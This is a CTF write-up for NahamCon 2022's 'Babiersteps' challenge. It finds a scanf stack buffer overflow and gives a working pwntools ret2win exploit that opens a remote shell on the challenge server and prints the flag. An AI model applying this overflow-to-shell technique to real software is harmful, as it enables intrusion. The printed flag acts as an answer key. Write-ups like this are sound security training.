

# Babiersteps - NahamCon CTF 2022 - [https://www.nahamcon.com/](https://www.nahamcon.com/)
Binary Exploitation, 50 Points

## Description


 
## Babiersteps Solution

Let's run ```checksec``` on the attached file [babiersteps](./babiersteps):
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babiersteps]
└──╼ $ checksec babiersteps
[*] '/nahamcon/binary_exploitation/babiersteps'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

As we can see we have [NX enabled](https://ctf101.org/binary-exploitation/no-execute/), [No Stack Canary](https://ctf101.org/binary-exploitation/stack-canaries/).

Let's run the binary:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babiersteps]
└──╼ $ ./babiersteps./babiersteps 
Everyone has heard of gets, but have you heard of scanf?
uuuu
```

By decompiling the binary using [Ghidra](https://github.com/NationalSecurityAgency/ghidra) we can see the following ```main``` function:
```c
undefined8 main(void)
{
  undefined local_78 [112];
  
  puts("Everyone has heard of gets, but have you heard of scanf?");
  __isoc99_scanf(&DAT_00402049,local_78);
  return 0;
}
```

And we can see also the following ```win``` function:
```c
void win(void)
{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

We can see on the ```main``` function classic buffer overflow.

Let's find the offset between the buffer ```local_78``` to ```rip``` using ```gdb```:
```asm
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babiersteps]
└──╼ $ gdb babiersteps
gef➤  disassemble main
Dump of assembler code for function main:
   0x00000000004011ea <+0>:	endbr64 
   0x00000000004011ee <+4>:	push   rbp
   0x00000000004011ef <+5>:	mov    rbp,rsp
   0x00000000004011f2 <+8>:	sub    rsp,0x70
   0x00000000004011f6 <+12>:	lea    rdi,[rip+0xe13]        # 0x402010
   0x00000000004011fd <+19>:	call   0x401070 <puts@plt>
   0x0000000000401202 <+24>:	lea    rax,[rbp-0x70]
   0x0000000000401206 <+28>:	mov    rsi,rax
   0x0000000000401209 <+31>:	lea    rdi,[rip+0xe39]        # 0x402049
   0x0000000000401210 <+38>:	mov    eax,0x0
   0x0000000000401215 <+43>:	call   0x4010a0 <__isoc99_scanf@plt>
   0x000000000040121a <+48>:	mov    eax,0x0
   0x000000000040121f <+53>:	leave  
   0x0000000000401220 <+54>:	ret    
End of assembler dump.
gef➤  b *main+54
Breakpoint 1 at 0x401220
```

Run it and search for the pattern:
```asm
gef➤  r
Starting program: /nahamcon/binary_exploitation/babiersteps/babiersteps 
Everyone has heard of gets, but have you heard of scanf?
AAAAAAAA

Breakpoint 1, 0x0000000000401220 in main ()

...
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde80 - 0x7fffffffde88  →   "AAAAAAAA" 
gef➤  info frame
Stack level 0, frame at 0x7fffffffdef8:
 rip = 0x401220 in main; saved rip = 0x7ffff7e0ad0a
 Arglist at 0x7fffffffdef0, args: 
 Locals at 0x7fffffffdef0, Previous frame's sp is 0x7fffffffdf00
 Saved registers:
  rip at 0x7fffffffdef8
gef➤  
```

The buffer locates on ```0x7fffffffde80``` and ```rip``` on ```0x7fffffffdef8``` the offset is ```120``` bytes:
```console
... | 120 bytes including the buffer | rip | ...
````

The address of ```win```:
```asm
gef➤  print win
$1 = {<text variable, no debug info>} 0x4011c9 <win>
```

So now we can solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html) with the following [code](./exp_babiersteps.py):
```python
from pwn import *

elf = ELF('./babiersteps')
libc = elf.libc

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 31879)
else:
    p = process(elf.path)

# payload buffer
payload = b"\x90"*120
payload += p64(0x4011c9)

p.recvuntil('?')
p.sendline(payload)
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/nahamcon/binary_exploitation/babiersteps]
└──╼ $ python3 exp_babiersteps.py REMOTE
[*] '/nahamcon/binary_exploitation/babiersteps'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.nahamcon.com on port 30479: Done
[*] Switching to interactive mode

$ hostname
babiersteps-95d8954facfdd3a1-56784c8d5c-qf5xp
$ ls
babiersteps
bin
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
$ cat flag.txt
flag{4dc0a785da36bfcf0e597917b9144fd6}
```

And we get the flag ```flag{4dc0a785da36bfcf0e597917b9144fd6}```.